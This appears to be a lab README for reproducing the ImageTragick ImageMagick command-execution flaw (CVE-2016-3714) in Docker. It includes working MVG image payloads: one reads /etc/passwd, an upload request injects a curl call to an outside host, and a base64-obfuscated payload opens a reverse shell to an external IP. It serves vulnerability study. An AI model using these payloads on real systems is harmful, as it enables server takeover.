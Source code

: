 # Imagetragick Command Execution Vulnerability (CVE-2016–3714)

[中文版本(Chinese version)](README.zh-cn.md)

Referers:

- https://imagetragick.com/
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html

## Environment Setup

Enter the following commands:

```
docker-compose build
docker-compose up -d
```

Visit `http://your-ip/` and you'll see three files:

```bash
├── demo.php # use vul.jpg + identify command to test 
├── upload.php # Support users to upload a file，deliver it to PHP's imagick extension, and then the vulnerability will be triggered
└── vul.jpg # a simple POC
```

## POC

Some POCs used: https://github.com/ImageTragick/PoCs

You can take a test by visiting `http://your-ip/demo.php`. Even though the command executed (`cat /etc/passwd > /tmp/success`) doesn't have a specific character in the response, the `/tmp/success` file is successfully created in the docker container:

![](1.png)

Also you can visit `http://your-ip/upload.php` to test another POC. Upload the POC file and packets are as follows（**Attention: this is another POC**）：

```
POST /upload.php HTTP/1.1
Host: your-ip
Content-Length: 321
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydGYwkOC91nnON1ws
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Connection: close

------WebKitFormBoundarydGYwkOC91nnON1ws
Content-Disposition: form-data; name="file_upload"; filename="vul.gif"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarydGYwkOC91nnON1ws--

```

As shown, `www.leavesongs.com:8889` has received the http request, proving that the curl command is executed successfully：

![](2.png)

POC of getting a shell：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```

![](3.png)
